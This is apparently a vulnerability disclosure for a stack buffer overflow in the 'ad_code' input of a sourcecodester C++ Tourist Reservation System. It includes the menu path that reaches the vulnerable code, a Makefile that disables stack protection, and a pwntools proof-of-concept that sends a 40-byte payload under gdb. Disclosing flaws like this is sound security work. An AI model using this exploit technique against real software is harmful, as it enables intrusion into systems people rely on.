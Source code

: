 # Tourist Reservation System using C++ with Free Source Code v1.0 - Buffer Overflow

Supplier:https://www.sourcecodester.com/cc/15022/tourist-reservation-system-using-c-free-source-code.html

There is a variable of type char called ad_code in Tourist Reservation System.cpp, which receives data in the form of cin>>, resulting in the ability to write ad_code data of any length and causing a buffer overflow.
![4](/img/Tourist-Reservation-System-using-C++-with-Free-Source-Code/4.png)

Vulnerability location: Line 87 in Tourist Reservation System.cpp file and exists in the ad_writedata() function.

![1](/img/Tourist-Reservation-System-using-C++-with-Free-Source-Code/1.png)

To execute the ad_writedata() function, you must enter the enter key while the program is running, and then enter 1 (select 1) ADMIN, then enter 1 (select 1) New trips until prompted for Enter Your Option.

![2](/img/Tourist-Reservation-System-using-C++-with-Free-Source-Code/2.png)

Note: I used g++ from Ubuntu to compile this project. I replaced all irrelevant system("cls"); in the source code with system("clear"); because cls does not work in Linux and can cause program exceptions.

I have written the following Makefile file to compile the program using make:

```Makefile
CXX=g++
CXXFLAGS=-Wall -Wextra -std=c++11 -fno-stack-protector -z execstack -no-pie

SRCS=main.cpp
OBJS=$(SRCS:.cpp=.o)
EXEC=main

.PHONY: all clean

all: $(EXEC)

$(EXEC): $(OBJS)
	$(CXX) $(CXXFLAGS) $(OBJS) -o $(EXEC)

%.o: %.cpp
	$(CXX) $(CXXFLAGS) -c $< -o $@

clean:
	rm -f $(OBJS) $(EXEC)

```

![3](/img/Tourist-Reservation-System-using-C++-with-Free-Source-Code/3.png)

Trigger vulnerability: When the input length is greater than 20 bytes, use gdb to debug the program and check the content of the ad_code variable to find that the length is greater than 20 bytes, successfully exceeding the variable definition length!

![6](/img/Tourist-Reservation-System-using-C++-with-Free-Source-Code/6.png)

Note: Due to the location where GDB debugging is triggered, the location of the ad_code variable is the rsp address+18C after running the script.

![5](/img/Tourist-Reservation-System-using-C++-with-Free-Source-Code/5.png)

pwn-attack.py

```python
from pwn import *

p = process('/home/xxxxxxxxxxxx/main')

p.sendlineafter('                                     \t      PRESS ENTER TO CONTINUE....', '')
p.sendlineafter('Enter any other key for exit\n\n\n', '1')
p.sendlineafter('Enter Your Option\n', '1')

payload = b'F' * 40

p.sendlineafter('Enter the Destination Code\nD-', payload)

print("[+] Payload: ", payload)

gdb.attach(p)

p.interactive()
```

This has ended.